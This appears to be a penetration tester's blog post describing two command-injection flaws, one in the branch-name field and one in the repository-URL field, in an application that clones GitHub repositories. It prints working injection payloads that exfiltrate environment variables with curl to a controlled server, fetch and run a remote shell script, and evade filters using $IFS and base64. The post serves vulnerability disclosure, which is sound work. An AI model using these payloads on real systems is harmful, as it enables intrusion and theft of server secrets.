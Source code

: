 ```yaml
---
layout: post
title:  "Remote Code Execution with GitHub Feature"
date:   2025-06-13
---
```


Last year, I assessed a popular application used by thousands of organizations and discovered a remote code execution (RCE) vulnerability.

Several months later, I had the opportunity to retest the application and identified a new parameter that bypassed validation, once again resulting in successful code execution.

## Discovering the Vulnerability
A feature in the application allowed users to connect a GitHub repository, which the application would run a daily job to clone and scan the repository. Initially, the clone operation failed due to incorrect access token permissions. The next day, an events endpoint revealed a stack trace detailing the failure, which exposed that an OS-level command was used for cloning. This prompted me to investigate further.

I later discovered that the application's compiled source code was publicly accessible on the vendor's help site. Although the platform is license-restricted, using a decompiler (jadx) to analyze the downloaded code provided the insights I needed.

<figure>
  <img src="/assets/img/2025/stack-trace-disclosing-os-cmd.png">
  <figcaption>Figure 1 – Error disclosed an OS command being run daily to clone a GitHub repository when an access token has missing privileges</figcaption>
</figure>

## Path to Exploitation
By analyzing the full command in the stack trace and reviewing the decompiled code in jadx, I discovered that the branch name parameter was vulnerable to command injection due to a flaw in the input validation logic. The application passed the branch name to a method called **wrapQuotes...**, which only added quotes if the input wasn't already wrapped. If the branch name started and ended with double quotes, the method returned it unmodified—allowing crafted input to bypass validation and break out of the command context. Otherwise, the input would be safely quoted or result in an error.

<figure>
  <img src="/assets/img/2025/bypass-to-rce-sourcecode.png">
  <figcaption>Figure 2 – Highlighted code block is the condition needed for command injection</figcaption>
</figure>

Once I understood the conditions required for successful injection, I crafted a payload that cloned my GitHub repository and executed a **curl** command to exfiltrate environment variables to a server I controlled. The daily job ran the payload early the next morning while I was asleep. After reviewing the results, I documented the vulnerability and prepared the report for the customer.

```
"main" https://github.com/:myGitHubUser/test .; curl -X POST -d "`printenv && ls -la /redacted && ps -aux`" "https://remoteserver.com/"
```

<figure>
  <img src="/assets/img/2025/rce-env-vars.png">
  <figcaption>Figure 3 – Successfully retrieved the server's environment variables</figcaption>
</figure>

## Bypass to Achieve Code Execution Again
Months later, when I had the opportunity to retest the application, I began by reviewing the latest source code to check if the branch name was still vulnerable. I confirmed that proper input validation had been implemented, restricting the allowed characters and preventing the previous injection method. I then explored alternative vectors and identified a field on a different page that allowed users to specify the GitHub repository URL for scanning. Although some input validation was in place, I was eventually able to bypass it after numerous attempts.

The repository URL field enforced input validation that disallowed spaces and required the string to begin with **https**. While researching potential bypass techniques, I came across the Linux shell's Internal Field Separator (IFS) variable, which can be used to substitute spaces in command injection scenarios. After several days of testing—limited by the application's once-daily job execution—I eventually crafted a working payload that successfully bypassed the restrictions and achieved code execution.

```
https://github.com/:myGitHubUser/test;curl$IFS$1-s$IFS$1'https://gist.githubusercontent.com/:myGitHubUser/:uuid/raw/:uuid/test.sh'$IFS$1-o$IFS$1'/tmp/test.sh';/bin/sh$IFS$1/tmp/test.sh$IFS$1Y3VybCAtZCAiYHByaW50ZW52ICYmIGxzIC1sYSAvcmVkYWN0ZWQvZ2xvYmFsLyAmJiBwcyAtYXV4YCIgaHR0cHM6Ly9leGFtcGxlLmNvbQ;echo$IFS$1
```

The payload cloned my repository, executed a **curl** command to download a shell script onto the server, and then ran the script with a base64-encoded input string containing OS commands to be executed on the server.

Following the report submission, the customer implemented proper input validation on the repository URL parameter to remediate the command injection vulnerability.
